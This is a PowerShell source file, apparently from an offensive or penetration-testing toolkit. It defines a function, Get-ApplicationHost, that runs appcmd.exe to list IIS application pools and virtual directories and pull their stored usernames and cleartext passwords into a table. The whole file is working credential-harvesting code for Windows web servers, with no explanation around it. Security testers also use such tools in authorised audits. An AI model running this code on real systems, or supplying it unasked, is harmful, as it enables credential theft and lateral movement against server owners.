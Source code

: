 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
function Get-ApplicationHost {
	$OrigError = $ErrorActionPreference
	$ErrorActionPreference = "SilentlyContinue"
​
	# Check if appcmd.exe exists
	if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
		# Create data table to house results
		$DataTable = New-Object System.Data.DataTable
​
		# Create and name columns in the data table
		$Null = $DataTable.Columns.Add("user")
		$Null = $DataTable.Columns.Add("pass")
		$Null = $DataTable.Columns.Add("type")
		$Null = $DataTable.Columns.Add("vdir")
		$Null = $DataTable.Columns.Add("apppool")
​
		# Get list of application pools
		Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {
​
			# Get application pool name
			$PoolName = $_
​
			# Get username
			$PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
			$PoolUser = Invoke-Expression $PoolUserCmd
​
			# Get password
			$PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
			$PoolPassword = Invoke-Expression $PoolPasswordCmd
​
			# Check if credentials exists
			if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
				# Add credentials to database
				$Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
			}
		}
​
		# Get list of virtual directories
		Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {
​
			# Get Virtual Directory Name
			$VdirName = $_
​
			# Get username
			$VdirUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"
			$VdirUser = Invoke-Expression $VdirUserCmd
​
			# Get password
			$VdirPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"
			$VdirPassword = Invoke-Expression $VdirPasswordCmd
​
			# Check if credentials exists
			if (($VdirPassword -ne "") -and ($VdirPassword -isnot [system.array])) {
				# Add credentials to database
				$Null = $DataTable.Rows.Add($VdirUser, $VdirPassword,'Virtual Directory',$VdirName,'NA')
			}
		}
​
		# Check if any passwords were found
		if( $DataTable.rows.Count -gt 0 ) {
			# Display results in list view that can feed into the pipeline
			$DataTable |  Sort-Object type,user,pass,vdir,apppool | Select-Object user,pass,type,vdir,apppool -Unique
		}
		else {
			# Status user
			Write-Verbose 'No application pool or virtual directory passwords were found.'
			$False
		}
	}
	else {
		Write-Verbose 'Appcmd.exe does not exist in the default location.'
		$False
	}
	$ErrorActionPreference = $OrigError
}